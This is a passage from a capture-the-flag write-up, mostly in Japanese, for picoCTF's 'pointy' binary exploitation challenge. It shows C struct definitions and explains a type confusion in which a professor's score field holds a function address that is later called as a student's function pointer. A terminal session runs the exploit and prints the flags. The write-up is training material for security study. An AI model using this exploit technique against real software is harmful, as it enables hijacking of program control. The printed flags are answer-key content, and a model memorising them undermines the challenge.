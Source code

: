 Flag: `picoCTF{A_s0ng_0f_1C3_and_f1r3_db12a9ed}`




<br /><br />
<br /><br />
## [Binary Exploitation]: pointy (350 points)
- - -
### Challenge
> Exploit the function pointers in this program.
<br /><br />
Hint : A function pointer can be used to call any function


Attachment:

- vuln (ELF 32-bit)
- vuln.c


<br />
### Solution
2つ構造体が違うのに、同じポインタのリストを使っているところがポイント。
```C
struct Professor {
    char name[NAME_SIZE];
    int lastScore;
};

struct Student {
    char name[NAME_SIZE];
    void (*scoreProfessor)(struct Professor*, int);
};
```
ProfessorのlastScoreにアドレスを入れて、Student構造体としてアクセスさせます。


<br />

<pre>
$ ./vuln 
Input the name of a student
aaa
Input the name of the favorite professor of a student 
bbb
Input the name of the student that will give the score 
aaa
Input the name of the professor that will be scored 
bbb
bbb
Input the score: 
134514326
Score Given: 134514326 
Input the name of a student
ccc
Input the name of the favorite professor of a student 
ccc
Input the name of the student that will give the score 
bbb
Input the name of the professor that will be scored 
ccc
ccc
Input the score: 
100
picoCTF{g1v1ng_d1R3Ct10n5_d9be6a30}
</pre>